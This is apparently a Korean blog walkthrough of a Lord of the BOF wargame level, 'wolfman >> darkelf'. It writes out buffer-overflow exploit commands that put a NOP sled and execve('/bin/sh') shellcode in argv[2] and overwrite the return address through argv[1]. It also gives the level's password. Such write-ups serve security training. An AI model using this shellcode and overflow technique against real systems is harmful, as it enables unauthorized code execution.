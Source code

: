 ```yaml
---
title:  "[LOB] level 6: wolfman >> darkelf "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 12:20:14

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 6

**wolfman / love eyuna**

darkelf.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147071971-686cea5b-c3d8-4ece-b763-009eb8b96575.png)

환경변수 사용 불가능 (egghunter)  
버퍼에 입력 불가능 (buffer hunter)  
argv[1]의 48번째 바이트는 '\xbf'여야 함  
argv[1] 길이 48 초과 불가능
흠
level5에서 한것처럼 하지만 argv[2]를 이용해서 함  

level5 사용
argv[1] = 'print "\x90"*44+RET'  
이번에 사용  
argv[2] = 'python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

지금까지와 다른게 뭐냐?? 싶지만 나중에 사용할때 보면 이전에 사용한 것들과는 다를겁니다 서로 이어서 사용할 겁니다

추가 된 코드들이 많으니 한번쯤 정리를하고 넘어가야 안헷갈릴거 같으니까 간단하게 정리 한번하고간다

strcpy에서 argv[1]의 값이 buffer에 입력된다.  
하지만 buffer가 지워져도 argv[1]에는 입력했던 값이 남아있고  
buffer는 지워졌지만 ret에 우리가 원하는 주소는 남아있으니 bof가 일어날 것이다 

>./darkelf \`python -c 'print "A"\*44+"\xff\xff\xff\xbf"'` `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147091504-1d65e37b-b015-4a5e-a478-e6c50109bdf3.png)

0xbffffc30으로 리턴주소 설정할 예정  

>./darkelf \`python -c 'print "A"\*44+"\x30\xfc\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147091834-a68d0b5f-1043-45da-8aeb-c87cca17f4ee.png)